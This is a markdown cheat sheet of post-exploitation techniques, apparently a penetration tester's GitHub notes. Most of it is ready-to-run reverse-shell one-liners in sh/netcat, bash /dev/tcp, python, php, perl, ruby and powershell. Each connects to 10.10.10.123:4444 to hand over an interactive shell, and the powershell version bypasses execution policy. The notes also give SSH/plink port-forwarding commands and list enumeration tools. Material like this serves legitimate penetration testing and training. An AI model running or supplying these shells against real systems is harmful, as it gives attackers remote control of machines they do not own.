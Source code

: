 # Post-exploitation
Tools and techniques I use for post-exploitation:
- [Reverse Shell](#reverse-shell)
  - [sh](#sh)
  - [bash](#bash)
  - [python](#python)
  - [php](#php)
  - [perl](#perl)
  - [ruby](#ruby)
  - [powershell](#powershell)
- [Port Forwarding](#port-forwarding)
- [Linux](#linux)
  - [Enumeration](#enumeration-on-linux)
  - [Privilege Escalation](#)
- [Windows](#windows)
  - [Enumeration](#enumeration-on-windows)
  - [Privilege Escalation](#)

----

## Reverse Shell

### sh
Works on Linux and FreeBSD.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.123 4444 >/tmp/f
```

### bash
```bash
bash -i >& /dev/tcp/10.10.10.123/4444 0>&1
``` 

### python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.123",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### php
```php
# One liner
php -r '$sock=fsockopen("10.10.10.123",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

# Reverse shell in file
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.123/4444 0>&1'");
```

### perl
```perl
perl -e 'use Socket;$i="10.10.10.123";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.10.10.123",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### powershell
```powershell
# Create a powershell script with the name reverse.ps1
function reverse_powershell {
    $client = New-Object System.Net.Sockets.TCPClient("10.10.10.123",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
}

# Execute reverse shell
powershell -ExecutionPolicy bypass -command "Import-Module reverse.ps1; reverse_powershell"
```

----

## Port Forwarding
In some cases, a root process is bound to an internal port, with which it communicates.  
If for some reason, an exploit can't run locally on the target machine, the port can be forwarded using SSH/plink.exe to your local machine.  
The exploit code can then be run on your local machine at whichever port you chose.  

### on linux
```bash
ssh -R <local-port>:127.0.0.1:<target-port> <username>@<local-machine>
```

### on windows
```powershell
plink.exe <user>@<kali> -R <kali-port>:<target-IP>:<target-port>
```

### Other tools for port forwarding
- [Chisel](https://github.com/jpillora/chisel)

----

## Linux
**work in progress**

### Enumeration on linux
Automated enumeration tools:
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [Linux smart enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

----

## Windows
**work in progress**

### Enumeration on windows
Automated enumeration tools:
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- [Seatbelt](https://github.com/GhostPack/Seatbelt)
- [SharpUp](https://github.com/GhostPack/SharpUp)
